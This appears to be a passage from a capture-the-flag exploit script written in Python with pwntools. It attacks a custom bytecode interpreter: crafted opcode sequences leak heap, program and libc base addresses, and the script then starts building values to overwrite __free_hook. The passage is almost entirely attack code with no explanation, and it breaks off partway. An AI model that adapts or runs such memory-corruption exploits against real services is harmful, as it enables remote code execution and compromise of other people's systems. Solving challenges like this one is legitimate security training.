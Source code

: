 ```python
]

context.log_level = "info"
read_opcode(260+1+3+1, [pop_r0] * 260 + [print_r0] + set_r1_265 + [push_r1])
context.log_level = "debug"
execute_opcode()

leak = int(conn.recvline().strip().decode().split(":")[1]) # heap
print(f"leak: {hex(leak)}")
heapbase = leak - 0x2d0
print(f"heapbase: {hex(heapbase)}")

# chunk2 (leak libc, codebase)
pop_r0 = u64(b'\x00\x00\x00\x00\x0d\x00\x00\x00'[::-1])
pop_r1 = u64(b'\x00\x00\x00\x00\x0d\x00\x00\x01'[::-1])
pop_r2 = u64(b'\x00\x00\x00\x00\x0d\x00\x00\x02'[::-1])
pop_r3 = u64(b'\x00\x00\x00\x00\x0d\x00\x00\x03'[::-1])
pop_r4 = u64(b'\x00\x00\x00\x00\x0d\x00\x00\x04'[::-1])
push_r1 = u64(b'\x00\x00\x00\x00\x0c\x00\x00\x01'[::-1]) # stderr
push_r2 = u64(b'\x00\x00\x00\x00\x0c\x00\x00\x02'[::-1]) # stdin
push_r3 = u64(b'\x00\x00\x00\x00\x0c\x00\x00\x03'[::-1]) # stdout
push_r4 = u64(b'\x00\x00\x00\x00\x0c\x00\x00\x04'[::-1]) # __dso_handle
push_r128 = u64(b'\x00\x00\x00\x00\x0c\x00\x00\x80'[::-1]) # always 0
print_r3 = u64(b'\x00\x00\x00\x00\x0b\x00\x00\x03'[::-1])
print_r4 = u64(b'\x00\x00\x00\x00\x0b\x00\x00\x04'[::-1])

context.log_level = "info"
read_opcode(0x1003+7+5+10, 
            [pop_r0] * 0x1003 + 
            [pop_r0, pop_r0, pop_r1, pop_r0, pop_r2, pop_r0, pop_r3] + 
            [pop_r0, pop_r0, pop_r4, print_r4, print_r3] + 
            [push_r128, push_r4, push_r128, push_r128, push_r3, push_r128, push_r2, push_r128, push_r1, push_r128]
)
context.log_level = "debug"
execute_opcode()

leak = int(conn.recvline().strip().decode().split(":")[1]) # bss
print(f"leak: {hex(leak)}")
codebase = leak - 0x4008
print(f"codebase: {hex(codebase)}")

leak = int(conn.recvline().strip().decode().split(":")[1]) # stdout
print(f"leak: {hex(leak)}")
libcbase = leak - 0x1ed6a0
print(f"libcbase: {hex(libcbase)}")

# chunk3 (modify free_hook)
print_r1 = u64(b'\x00\x00\x00\x00\x0b\x00\x00\x01'[::-1])
push_r1 = u64(b'\x00\x00\x00\x00\x0c\x00\x00\x01'[::-1])
def build_reg1(value) -> list:
    out = []
    value_base256 = []
    while value:
        value_base256.append(value & 0xff)
        value >>= 8
    out.append(u64(b'\x00\x00\x00\x00\x00\x01\x00\x00'[::-1])) #mov r1, 0
    for i,val in enumerate(value_base256):
        out.append(u64((b'\x00\x00\x00\x00\x00\x02\x00' + bytes([val]))[::-1])) #mov r2, val
        out.append(u64((b'\x00\x00\x00\x00\x00\x03\x00' + bytes([i*8]))[::-1])) #mov r3, i*8
        out.append(u64(b'\x00\x00\x00\x00\x05\x02\x02\x03'[::-1])) #lshift r2, r2, r3
        out.append(u64(b'\x00\x00\x00\x00\x01\x01\x01\x02'[::-1])) #add r1, r1, r2
    return out
```